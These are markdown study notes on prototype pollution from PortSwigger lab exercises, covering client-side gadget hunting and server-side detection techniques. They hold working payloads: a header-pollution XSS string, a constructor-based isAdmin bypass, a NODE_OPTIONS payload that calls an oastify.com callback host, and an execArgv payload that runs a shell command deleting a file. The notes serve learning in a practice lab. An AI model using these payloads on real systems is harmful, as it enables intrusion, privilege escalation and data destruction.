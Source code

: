 ```yaml
---
description: Prototype pollution notes for the first couple labs
---
```


# ⛽ Prototype Pollution

* [https://portswigger.net/burp/documentation/desktop/tools/dom-invader/prototype-pollution#scanning-for-prototype-pollution-gadgets](https://portswigger.net/burp/documentation/desktop/tools/dom-invader/prototype-pollution#scanning-for-prototype-pollution-gadgets) - DOM Invader
* Find source that allows adding properties to global prototype
  * `website.com/?__proto__[foo]=bar`
  * Check `Object.protoype.foo` in web console
    * Try with other techniques, formats, etc.
  * Can automated with DOM Invader
* Finding gadgets
  *   Manually

      1. Find properties used by the app or imported libraries in code
      2. Intercept Response, not request, with found JS
      3. Add debugger statement to start the script and forwards remaining HTTP
      4. Go to page loading the target script with Burp's Browser
      5. Enter the following in the web console to have log to console when accessed

      ```javascript
      Object.defineProperty(Object.prototype, 'YOUR-PROPERTY/GADGET', {
        get() {
            console.trace();
            return 'polluted';
        }
      })
      ```

      6. Press the continue button and check the console for stack trace
      7. Jump to the link in the stack trace that shows where the property is read
      8. Step through the execution phases to search for DOM Sink
  * Use DOM Invader
  * Use Breakpoints in console debugger for troubleshooting broken exploits
* Header Pollution - `?__proto__[headers][x-username]=<img/src/onerror=alert(1)>`
* Check for JS files filtering for common injection strings

**Server Side**

* Detecting when not reflected
* Status code override
  1. Trigger error response and note status code
  2. Pollute prototype with your own status code that shouldn't normally happen
     * Not 500
  3. Trigger error response and check if status code overridden

```json
"__proto__": {
    "status":555
}
```

* JSON spaces
  * override json spaces option in Express framework then view a JSON response
  * Make sure to edit JSON in RAW when using Burp
  * version 4.17.4
* Charset override
  * Object properties visible in a response
  * Add arbitrary UTF-7 encoded string to reflected property
  * Send request
  * pollute protype with content-type property to specify UTF-7
  * Repeat first request and check if the role was decoded

```http
{
	"sessionId":"0123456789",
	"username":"wiener",
	"role":"+AGYAbwBv-"
}
```

```http
{
"sessionId":"0123456789",
"username":"wiener",
"role":"default",
"__proto__":{
	"content-type": "application/json; charset=utf-7"
}
}
```

```http
{
	"sessionId":"0123456789",
	"username":"wiener",
	"role":"foo"
}
```

* Scanning for server-side prototype pollution sources
  * Server-Side Prototype Pollution Scanner extension
  * Select list of items from HTTP History
  * right click and use extension
* Bypassing input filters for server-side proto pollution
  * Obfuscate prohibited keywords
  * Use constructor property instead of \_\_proto\_\_

```json
"constructor": {
    "prototype": {
        "isAdmin":true
	    }
	}
```

* Detecting Server-Side Prototype Pollution

```json
"__proto__": {
    "shell":"node",
    "NODE_OPTIONS":"--inspect=jbykzmsium655a5p72jx48q4xv3mrcf1.oastify.com\"\".oastify\"\".com"
}}
```

```json
"__proto__": {
    "shell":"node",
 "execArgv": [
    "--eval=require('child_process').execSync('rm /home/carlos/morale.txt')"
	]
}
```
